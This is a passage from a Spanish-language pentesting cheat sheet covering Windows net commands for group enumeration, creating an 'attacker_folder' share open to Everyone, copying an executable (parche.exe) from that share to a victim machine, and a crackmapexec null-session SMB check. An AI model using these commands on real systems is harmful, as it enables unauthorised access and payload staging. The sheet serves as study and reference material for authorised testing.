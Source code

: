 ```

net localgroup
```

## Revisar un grupo en especifico

En este caso revisamos quienes son los miembros del grupo Administrators.
```
net localgroup Administrators

```

## Crear un recurso compartido

Crea un recurso compartido y lo llama attacker_folder le da una ruta y pone a los adminsitradores que tienen completo control.

```
net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL
```

![image](https://github.com/gecr07/Acordeon/assets/63270579/e46560bd-2981-4887-aa70-1d324c1ba00a)

En este caso, se está otorgando permisos completos (FULL) al grupo Everyone, lo que permitirá a cualquier usuario acceder al recurso compartido sin necesidad de autenticación.

```
net share attacker_folder=C:\Windows\Temp /GRANT:Everyone,FULL
```
Copiar desde una computadora victima archivos...

```

copy \\share\attacker_folder\parche.exe parche.exe

```

Para eliminar el share que cualquiera puede usar lo cual es algo peligroso...

```
net share attacker_folder /DELETE

O para regresar que solo los admins puedan usarlos

net share attacker_folder=C:\Windows\Temp /GRANT:Administrators,FULL
```



> https://book.hacktricks.xyz/windows-hardening/basic-cmd-for-pentesters

## Crackmapexec

Sesiones nulas igual se puede

```
crackmapexec smb <target(s)> -u '' -p ''
```

